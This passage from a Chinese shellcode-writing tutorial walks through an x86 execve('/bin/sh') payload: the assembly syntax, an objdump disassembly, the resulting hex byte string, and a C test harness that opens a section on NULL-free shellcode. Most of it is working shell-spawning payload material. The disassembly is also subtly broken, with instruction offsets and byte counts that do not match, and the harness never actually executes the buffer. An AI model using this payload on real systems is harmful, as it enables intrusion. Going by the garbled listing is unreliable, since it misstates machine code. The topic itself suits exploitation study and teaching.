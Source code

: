 解释下相关的语法。
*lea* ((Load Effective Address)) 与 mov 不一样他是将数据写入该位址偏移 ((memory offset))，就像 C 语言的 address-of 那样。
我们通过它来定位我们的数据写入口，stack 位置，还有许多许多 VMA。位址偏移就用 *[]* 来表示。

我们将 eax ((内含'0')) 分别写入 *esi 后 7 byte 和 12 byte 的位址* ((为的是在 /bin/sh 后加上 NULL, 还有为envp 做 NULL))然后将我们的 array 地址写入 esi + 8。

编译看，
```bash
nasm -f elf shellcode.asm
objdump -D shellcode.o

get_shell.o:     file format elf32-i386

Disassembly of section .text:

00000000 <shellcode-0x2>:
   0:   eb 18                   jmp    1a <goto>

00000002 <shellcode>:
   2:   5e                      pop    %esi
   3:   b8 00 00 00 00          mov    $0x0,%eax
   5:   89 46 07                mov    %eax,0x7(%esi)
   8:   89 76 08                mov    %esi,0x8(%esi)
   b:   89 46 0c                mov    %eax,0xc(%esi)
   e:   b0 0b 00 00 00          mov    $0xb,%eax
  10:   8d 1e                   lea    (%esi),%ebx
  12:   8d 4e 08                lea    0x8(%esi),%ecx
  15:   8d 56 0c                lea    0xc(%esi),%edx
  18:   cd 80                   int    $0x80

0000001a <goto>:
  1a:   e8 e3 ff ff ff          call   2 <shellcode>
  1f:   2f                      das    
  20:   62 69 6e                bound  %ebp,0x6e(%ecx)
  23:   2f                      das    
  24:   73 68                   jae    8e <goto+0x74>
```

好吧写完了NASM，编译出了机器码。那么我们的 shellcode 为

```c
\xeb\x18\x5e\xb8\x00\x00\x00\x00\x89\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x00\x00\x00
\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

完成了。你发觉到错误吗？

## 编写个 NULL-free 的 shellcode
shellcoder 们，玩 shellcode 记得先测试啊！

```c
#include <stdio.h>
#include <string.h>

char shellcode[] = " /*[这是shellcode]*/ ";

int main() {
  void *exec = shellcode;
  memcpy (exec, shellcode, strlen(shellcode));
  printf ("[*] Bad shellcode if occur segmentation fault\n");
  printf ("[+] Executing!\n");
  return 0;
}
```

